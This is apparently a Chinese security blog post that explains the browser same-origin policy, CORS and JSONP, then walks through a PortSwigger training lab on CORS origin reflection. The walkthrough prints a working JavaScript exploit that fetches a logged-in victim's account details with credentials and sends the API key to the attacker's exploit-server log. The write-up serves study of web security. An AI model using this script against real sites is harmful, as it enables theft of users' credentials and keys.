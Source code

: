 #  同源策略漏洞初步学习   
原创 Caigensec  菜根网络安全杂谈   2025-02-18 04:05  
  
**点击标题下「蓝色微信名」可快速关注**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/ick6R1E3YokGicVeM3swHEZaM8cfEGLUB8QRicTAicIKyLaicmlicUGLv7XQP56vvc8dxVNSjYerVCHON8n1dlajco1w/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Sg02xflJ62rdxefX9thdaL8hxJWicY1vPlEmzNIWcBy2ypXTggHXX9e0kFDEVicficwTDdlLHLNrh6ica1SEvMqKeQ/640?wx_fmt=gif "")  
  
免责声明：本文仅用于合法范围的学习交流，若使用者将本文用于非法目的或违反相关法律法规的行为，一切责任由使用者自行承担。请遵守相关法律法规，勿做违法行为！本公众号尊重知识产权，如有侵权请联系我们删除。  
  
  
01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JklNicn4RoOYselcxR3KCEWzc5XxKBV6dHxicYwheES56YJiczBO0ticvSn4pXR7hibHXW2Rpfr6027LhnCurzjwibXg/640?wx_fmt=png "")  
  
  
  
同源策略是什么意思  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rrbZLC2ibIgtgV382cFCwmibpHFT7jndu1ibEDpFia0dzsjETHdt0HFzYlVRnHIaumpf3QyVos7giadDicqSku9zOEibw/640?wx_fmt=jpeg "金属质感分割线")  
  
  
## 1、概念  
  
  
同源策略是浏览器的一个安全功能，它规定了来自一个源的脚本在没有特殊授权的情况下，不能访问或操作来自其他源的文档、对象或脚本等资源。这里的 “源” 由协议、域名和端口号共同决定，只有当这三个部分都完全相同时，才被认为是同源。  
  
## 2、作用  
  
  
**防止数据泄露**  
：避免恶意网站通过脚本获取用户在其他网站上的敏感信息，如用户登录凭证、个人数据等。例如，如果没有同源策略，恶意网站的脚本就可能读取用户在银行网站上的账户信息。  
  
**防止恶意操作**  
：阻止恶意脚本对其他网站进行未经授权的操作，如修改页面内容、执行命令等。比如，防止一个网站的脚本在用户不知情的情况下，在另一个网站上发起转账等危险操作。  
  
## 3、实现方式  
  
  
浏览器通过检查请求的源和目标资源的源是否相同来实施同源策略。当脚本尝试进行跨源操作时，浏览器会根据同源策略的规则进行检查，如果发现是跨源操作且不符合相关安全规定，就会阻止该操作。  
  
## 4、相关技术  
  
  
**跨域资源共享（CORS）：**  
是一种允许网页脚本向不同源的服务器请求资源的机制，通过在服务器端设置特定的响应头，来告诉浏览器哪些源的请求是被允许的，从而实现跨源访问的安全控制。  
  
**JSONP（JSON with Padding）：**  
是一种利用<script>标签的 src 属性不受同源策略限制的特性来实现跨域数据获取的技术，常用于请求 JSON 数据。它通过动态创建<script>标签，将回调函数名作为参数传递给服务器，服务器返回一个包含回调函数调用和数据的 JavaScript 代码，从而实现跨域数据传递。  
  
  
02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JklNicn4RoOYselcxR3KCEWzc5XxKBV6dHxicYwheES56YJiczBO0ticvSn4pXR7hibHXW2Rpfr6027LhnCurzjwibXg/640?wx_fmt=png "")  
  
  
  
CORS实验练习  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rrbZLC2ibIgtgV382cFCwmibpHFT7jndu1ibEDpFia0dzsjETHdt0HFzYlVRnHIaumpf3QyVos7giadDicqSku9zOEibw/640?wx_fmt=jpeg "金属质感分割线")  
  
靶场地址：  
https://portswigger.net/web-security/all-labs#cross-origin-resource-sharing-cors  
  
## 1、一级标题  
  
  
实验地址：  
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack  
  
实验目标：编写JavaScript，使用CORS检索管理员的API密钥，并将代码上传到漏洞利用服务器。  
  
（1）登录账号，点击MyAcoount并抓包，查看了自己API  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJUlgUpDiaDiaT6snRuia4iajnWiatdN2vE5LzChsn49icQJt1D0ygfVbCicxCEA/640?wx_fmt=png&from=appmsg "")  
  
（2）在请求包添加 Origin: https://example.com，观察响应包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJU3gjb0Ujsxe4p4xmSwgs2LFN4DvqK4s2sAdcddIMxFjIQXXL9biaHeew/640?wx_fmt=png&from=appmsg "")  
  
（3）构造js利用脚本  
```
<script>  var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {  location='/log?key='+this.responseText;};</script>
```  
  
（4）进入利用页面，把js代码复制在body中，同时将URL替换js的内容，Flie内容改为html  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_jpg/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJUIXQk5SMesYSTCEYRePCmXCdTSlpZsNhibBgDCJzibWxO4YbA0SNyQ4Aw/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJUickwBnHcnNB860br0wm3Dw4876aAj88yrOSOicG7CbUrAvL0jBDW6Mow/640?wx_fmt=png&from=appmsg "")  
  
（5）点击**View exploit**  
，然后返回 **back to the exploit server**  
  ，点击**Deliver exploit to victim**  
，然后点击**Access log**  
找到可疑的登录记录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJUFx0oZIEaeE1lib2EKMoa6LV19RSHibDJg0YA5ArB4ibDd04YJkyfCdxZg/640?wx_fmt=png&from=appmsg "")  
  
解码得出了管理员的API秘钥  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJUiblxL6x203Bgb1wFgOJekCqqDqYQiaNaHmbfvQZWJPHRaqECMcZG2U4Q/640?wx_fmt=png&from=appmsg "")  
  
（6）点击Submit Solution，提交获取的APIkey  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokF4nHVMr9ia8cYbyyxxvsVJUInjTkH0rjIRXzNWRCRIyRXfDWLwqicZywwsDVaUvCqgnsPjlmfmqILg/640?wx_fmt=png&from=appmsg "")  
  
  
THE END  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ick6R1E3YokFvoM6PLd2g5R9ZyvTVYQhyosDWxvJP5DSfU2zuS01w7sRwGM8y8FPkADsZgW9OzB1fkoEcrsDxmA/640?&wx_fmt=png "")  
  
亲爱的朋友，若你觉得文章不错，请点击关注。你的关注是笔者创作的最大动力，感谢有你  
！  
  
